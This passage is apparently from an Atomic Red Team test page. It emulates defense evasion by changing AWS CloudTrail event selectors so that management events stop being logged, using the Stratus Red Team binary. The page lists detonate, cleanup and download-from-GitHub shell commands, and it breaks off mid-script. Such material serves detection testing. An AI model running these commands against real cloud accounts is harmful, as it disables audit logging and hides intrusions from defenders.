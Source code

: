 


<br/>
<br/>

## Atomic Test #4 - AWS - Disable CloudTrail Logging Through Event Selectors using Stratus
Update event selectors in AWS CloudTrail to disable the logging of certain management events to evade defense. This Atomic test leverages a tool called Stratus-Red-Team built by DataDog (https://github.com/DataDog/stratus-red-team). Stratus Red Team is a self-contained binary. You can use it to easily detonate offensive attack techniques against a live cloud environment. Ref: https://stratus-red-team.cloud/attack-techniques/AWS/aws.defense-evasion.cloudtrail-event-selectors/

**Supported Platforms:** Linux, macOS, Iaas:aws


**auto_generated_guid:** a27418de-bdce-4ebd-b655-38f11142bf0c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| stratus_path | Path of stratus binary | path | $PathToAtomicsFolder/T1562.008/src|
| aws_region | AWS region to detonate | string | us-west-2|


#### Attack Commands: Run with `sh`! 


```sh
export AWS_REGION=#{aws_region} 
cd #{stratus_path}
echo "starting warmup"
./stratus warmup aws.defense-evasion.cloudtrail-event-selectors
echo "starting detonate"
./stratus detonate aws.defense-evasion.cloudtrail-event-selectors --force
```

#### Cleanup Commands:
```sh
export AWS_REGION=#{aws_region}
echo "Cleanup detonation"
cd #{stratus_path}
./stratus cleanup --all
rm -rf stratus*
```



#### Dependencies:  Run with `sh`!
##### Description: Stratus binary must be present at the (#{stratus_path}/stratus)
##### Check Prereq Commands:
```sh
if [ -f #{stratus_path}/stratus ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```sh
if [ "$(uname)" == "Darwin" ]
then DOWNLOAD_URL=$(curl -s https://api.github.com/repos/DataDog/stratus-red-team/releases/latest | grep browser_download_url | grep Darwin_x86_64 | cut -d '"' -f 4); wget -q -O #{stratus_path}/stratus-red-team-latest.tar.gz $DOWNLOAD_URL
  tar -xzvf #{stratus_path}/stratus-red-team-latest.tar.gz --directory #{stratus_path}/
elif [ "$(expr substr $(uname) 1 5)" == "Linux" ]
```